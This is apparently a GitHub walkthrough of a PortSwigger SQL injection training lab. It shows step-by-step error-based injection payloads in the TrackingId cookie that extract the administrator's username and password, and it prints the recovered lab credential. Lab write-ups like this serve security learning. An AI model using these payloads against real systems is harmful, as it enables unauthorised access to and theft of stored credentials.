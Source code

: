 ## Welcome, my friend. Today we will start the [16. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/b9733e06-f236-4d06-bdc5-8ca38acea06a)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/6208ecd8-2fa1-4875-8956-29a18ff32c31)

![image](https://github.com/user-attachments/assets/edfd0c18-7e91-4e14-a32d-2b7aff1d2adf)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=SuNnJlVwVNjaigCn';
```

![image](https://github.com/user-attachments/assets/c007269c-419e-4669-a4c4-7b67fcc5fe3d)

### ```error message``` printed.

### Try  following payload:

```
Cookie: TrackingId=SuNnJlVwVNjaigCn'--;
```

![image](https://github.com/user-attachments/assets/a165afd2-fe97-430c-a72b-6384ec03dda4)

### ```200 states``` printed so This is ```true```.

#### We know that there is one table is ```users``` and there are two columns ```username```,```password``` and there username is ```administrator``` and require his password.

### Ok We change value from string to integer:

```
Cookie: TrackingId=c4tf65BJedISgLpl' AND 1=CAST((SELECT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/df60e748-cd42-422f-afd1-c7848328078f)

### error because ```AND``` must be boolean.


### Ok we will change payload and add  ```=``` to know type of database:


```
Cookie: TrackingId=c4tf65BJedISgLpl' AND CAST((SELECT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/138585ce-a6d8-423a-b082-6f9aa489029f)

### 200 status 


### retrieve data from username in users table
```
Cookie: TrackingId=c4tf65BJedISgLpl' AND 1=CAST((SELECT username FROM users) AS int)--;
```

![image](https://github.com/user-attachments/assets/7551ef2a-39a5-485f-8e65-905590c93c0e)

### Let's go delete TrackingId value and try again:

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--;
```

![image](https://github.com/user-attachments/assets/a8d06f7d-b819-4909-89c7-d051ff72415f)

### Now add ```Limit 1``` such as:

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/6c202ef7-330b-4191-ab4c-78dbeec84e34)

### Ok Now we discover username let's go discover password:

```
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/f5c6e5da-df27-4f02-9c02-689261abd104)

#### this is password ```administrator:rz8u2e6300his0jlg72z```

![image](https://github.com/user-attachments/assets/5143320d-83f7-4bd0-a0f5-795b6b6ec06f)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
